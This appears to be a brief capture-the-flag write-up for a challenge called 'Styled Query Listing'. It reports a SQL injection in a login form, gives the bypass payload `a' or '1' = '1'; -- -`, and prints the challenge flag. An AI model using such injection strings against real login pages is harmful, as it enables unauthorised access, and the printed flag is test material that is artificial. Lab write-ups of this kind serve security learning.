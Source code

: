 # Styled Query Listing

## Solution

- There was sqli in the username and password fields
- Username = admin and Password = `a' or '1' = '1'; -- - ` gives the flag

## Flag

```
OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}
```
